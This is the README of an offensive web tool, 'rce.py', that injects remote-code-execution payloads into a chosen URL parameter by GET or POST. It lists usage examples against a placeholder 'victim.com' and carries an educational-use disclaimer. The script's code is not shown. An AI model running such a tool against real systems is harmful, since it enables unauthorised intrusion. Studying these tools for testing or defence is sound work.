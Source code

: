 # RCE : Remote Code Execution

Usage:
------
  ./rce.py [options] ur<rce>l
  
  
Options:
--------
  -p     - Use POST method instead of GET. Enter url as GET.
  -u     - Overload user agent.
  -i <r> - Use regex for the output.
  -r <f> - Upload the file.
  -h     - Help. This menu.
  <rce>  - Location of vulnerable parameter.   
  
  
Example:
--------
  ./rce.py 'http://victim.com/query?vulnparam=<rce>&safeparam=value'
        - Sends the attack as a GET request, replacing '<rce>' with the payload.
        
        
  ./rce.py -u 'http://victim.com/query?vulnparam=<rce>&safeparam=value'
        - Sends the attack as a GET request, replacing '<rce>' with the payload and overwrite the user agent.
        
        
  ./rce.py -p 'http://victim.com/query?vulnparam=<rce>&safeparam=value'
        - Parses the parameters from the url and sends the attack as a POST request, replacing '<rce>' with the payl
oad.


  ./rce.py -i '<toto>(.*)</toto>' 'http://victim.com/query?vulnparam=<rce>&safeparam=value'
        - Display only the result between the balises 'toto'.
        
        
Disclaimer :
------------
This provided script is to be used for educational purposes only. The creator is in no way responsible for any misuse of 
the information provided. All of the information is meant to help the reader develop a hacker defense attitude in order to
prevent the attacks discussed. In no way should you use this script to cause any kind of damage directly or indirectly.
